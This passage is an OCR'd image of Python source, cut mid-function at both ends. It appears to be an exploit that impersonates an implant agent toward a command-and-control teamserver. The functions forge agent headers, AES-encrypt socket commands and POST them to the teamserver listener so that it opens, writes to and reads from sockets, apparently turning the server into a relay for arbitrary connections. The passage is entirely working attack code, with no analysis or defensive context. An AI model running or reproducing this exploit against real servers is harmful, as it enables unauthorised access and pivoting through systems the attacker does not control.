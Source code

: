 ```python

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")

def write_socket(socket_id, data, message):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print(message)
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed - {r.status_code} {r.text}")

def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
```